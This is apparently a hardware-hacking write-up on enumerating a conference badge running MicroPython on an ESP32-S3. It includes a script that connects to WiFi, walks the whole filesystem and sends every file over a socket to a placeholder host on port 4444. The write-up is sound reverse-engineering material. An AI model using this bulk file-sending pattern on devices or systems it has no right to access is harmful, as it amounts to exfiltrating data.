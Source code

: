 ## Enumerating the Badge

### Extracting the Filesystem

We can look through the filesystem in micropython, and we notice that there are a few files and folders contained within the badge.

```py
>>> import os
>>> os.listdir()
['boot.py', 'eyes', 'lib', 'starlabs']
```

We can write a script to extract the filesystem for easier analysis, however there is no trivial way to extract the files through serial port.

Since `ESP32-S3` supports connecting to WiFi, we can simply connect to the internet and send the files back to ourselves via python sockets.

```py
# script to connect to wifi
import network
sta_if = network.WLAN(network.STA_IF)
sta_if.active(True)
sta_if.scan()                             # Scan for available access points
sta_if.connect("<AP_name>", "<password>") # Connect to an AP
sta_if.isconnected()                      # Check for successful connection
```

```py
# script to run on the badge to send out the files
def list_files_recursively(directory):
    files_list = []
    for item in os.listdir(directory):
        item_path = directory + '/' + item
        if os.stat(item_path)[0] & 0x4000:  # Check if it's a directory
            files_list.extend(list_files_recursively(item_path))
        else:
            files_list.append(item_path)
    return files_list

import socket

s = socket.socket()
s.connect(('X.X.X.X', 4444))

for file in list_files_recursively('./'):
  s.send(f"SPLIT{file}CONTENT")
  with open(file, "rb") as f:
    s.send(f.read())
  print(file)

s.close()
```
